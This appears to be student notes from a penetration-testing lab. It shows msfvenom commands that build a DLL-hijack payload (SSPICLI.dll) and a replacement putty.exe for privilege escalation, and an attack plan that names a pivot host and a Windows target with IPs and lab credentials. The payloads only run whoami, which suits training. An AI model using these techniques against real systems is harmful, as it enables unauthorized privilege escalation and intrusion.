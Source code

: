## Showcase
### Fake Payload write permissions (dll emplacement)
    msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > c:\users\student\Desktop\whoami.txt' -f dll > SSPICLI.dll
____________________________________________________________________________________________________________________
## Showcase
### Fake Payload rename permissions (exe replacement)
    msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > c:\users\student\Desktop\whoami.txt' -f exe > putty.exe
____________________________________________________________________________________________________________________
## For the DEMO!!!
### To kill the putty.exe we downloaded and launched.
    (get-process | ?{$_.name -like "putty"}).kill()
____________________________________________________________________________________________________________________
# Scheme of Maneuver:
## >Jump Box
## ->Pivot: 192.168.28.105
## -->T1: 192.168.28.5

## Target Section:

## Pivot
### Hostname: ftp.site.donovia
### IP: 192.168.28.105
### OS: Ubuntu 18.04
### Creds: comrade :: StudentReconPassword
### Last Known SSH Port: 2222
### Malware: none
### Action: Perform SSH masquerade and redirect to the next target. No survey required, cohabitation with known PSP approved.

### T1
### Hostname: donovian-windows-private
### IP: 192.168.28.5
### OS: Windows ver: Unknown
### Creds: comrade :: StudentPrivPassword
### Last Known Ports: 3389
### PSP: unknown
### Malware: unknown
### Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.

